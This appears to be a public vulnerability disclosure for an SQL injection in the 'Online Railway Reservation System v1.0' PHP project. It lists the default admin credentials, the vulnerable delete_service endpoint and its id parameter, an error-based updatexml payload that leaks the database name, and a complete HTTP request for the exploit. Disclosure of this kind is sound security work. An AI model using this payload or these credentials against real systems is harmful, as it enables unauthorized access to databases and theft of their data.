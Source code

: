 # Online Railway Reservation System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html

Vulnerability File: /orrs/classes/Master.php?f=delete_service

Vulnerability location: /orrs/classes/Master.php?f=delete_service, id=

Current database name: orrs_db,length is 7

[+] Payload:  id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

You need to execute the following sql statement in the database to create the "service_list" table 
```sql
CREATE TABLE `service_list` (
  `id` int(30) NOT NULL,
  `code` varchar(100) NOT NULL,
  `name` text NOT NULL,
  `delete_flag` tinyint(1) NOT NULL,
  `date_created` datetime NOT NULL,
  `date_updated` datetime NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
COMMIT;
```

```sql
POST /orrs/classes/Master.php?f=delete_service HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 65
Cookie: PHPSESSID=hea24clorqs9kplqalqihp0ik4
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/172341183-a50176c8-0a53-49bc-ac57-9ef8b1641d8f.png)
